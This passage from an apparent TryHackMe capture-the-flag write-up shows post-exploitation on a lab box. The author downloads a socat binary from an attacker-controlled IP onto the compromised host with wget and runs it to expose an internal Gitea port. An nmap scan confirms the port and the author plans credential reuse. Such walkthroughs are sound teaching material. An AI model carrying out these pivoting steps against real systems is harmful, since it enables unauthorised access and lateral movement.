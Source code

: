 I think due to bruteforce of username:password for SSH the credetials leaked like this →

```bash
dylan:<PASSWORD>
```
{: .nolineno}
{: .nolineno}

Now I port forworded the port 3000 for external access with socat Tool →

```bash
www-data@year-of-the-dog:/tmp$ wget http://10.8.83.156/socat_x86
--2023-09-28 10:04:05--  http://10.8.83.156/socat_x86
Connecting to 10.8.83.156:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 375176 (366K) [application/octet-stream]
Saving to: 'socat_x86'

socat_x86           100%[===================>] 366.38K   345KB/s    in 1.1s    

2023-09-28 10:04:06 (345 KB/s) - 'socat_x86' saved [375176/375176]

www-data@year-of-the-dog:/tmp$ chmod +x *
www-data@year-of-the-dog:/tmp$ ./socat_x86 TCP-LISTEN:2222,reuseaddr,fork TCP:127.0.0.1:3000 &
[1] 1538
www-data@year-of-the-dog:/tmp$
```
{: .nolineno}
{: .nolineno}

Now lets check if the port 2222 got open on victim machine →

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/yotd]
└─$ sudo nmap -p 2222 10.10.39.160               
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-28 14:34 IST
Nmap scan report for 10.10.39.160
Host is up (0.17s latency).

PORT     STATE SERVICE
2222/tcp open  EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 0.50 seconds
```
{: .nolineno}
{: .nolineno}

Now lets access this site on web browser →

![Untitled](Untitled%2010.png)
_gitea Dashboad_

This port host the <mark style="background: #D2B3FFA6;">gitea</mark> in it , Lets try to login with the credentials or data that we have got from the Local Privilege Escalation →
